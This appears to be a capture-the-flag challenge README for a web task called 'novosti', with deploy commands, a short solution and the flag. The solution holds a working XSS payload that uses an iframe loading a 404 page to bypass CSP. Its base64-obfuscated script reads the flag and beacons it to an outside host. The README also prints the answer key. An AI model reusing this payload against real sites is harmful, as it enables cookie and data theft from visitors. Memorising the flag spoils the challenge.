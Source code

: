 # web | novosti

## Information

TODO

[https://novosti-3d5d54b8c9f9f81aabcf60563021845f.ctfcup-2023.ru](https://novosti-3d5d54b8c9f9f81aabcf60563021845f.ctfcup-2023.ru)

## Deploy

1. Create flag secret in deploy directory.
2. Create admin token secret in deploy directory.
3. Launch the compose project.

```sh
cd deploy
echo "ctfcup{flag}" > novosti-flag
echo "random-token" > novosti-admin-token
docker compose -p web-novosti up --build -d
```

## Public

Provide zip file: [public/novosti.zip](public/novosti.zip).

## TLDR

XSS, use iframe leading to 404 in order to bypass CSP

```html
<script>
  const iframe = document.createElement("iframe");
  iframe.src = "/404";
  document.body.appendChild(iframe);
  setTimeout(() => {
    iframe.contentWindow.document.body.innerHTML = `<img src=x onerror="eval(atob('ZmV0Y2goImh0dHA6Ly9maWxlczo4MDgwL2ZsYWciKS50aGVuKHI9PnIudGV4dCgpKS50aGVuKHQ9Pm5hdmlnYXRvci5zZW5kQmVhY29uKCJodHRwOi8vcmVuYm91LnJ1Iix0KSk7'))" />`;
  }, 1000);
</script>
```

## Writeup (ru)

TODO

## Writeup (en)

TODO

## Domain

https://novosti-3d5d54b8c9f9f81aabcf60563021845f.ctfcup-2023.ru

## Cloudflare

Yes

## Flag

ctfcup{b4by-1fr4m3-x55-a4371ea843fc145f}
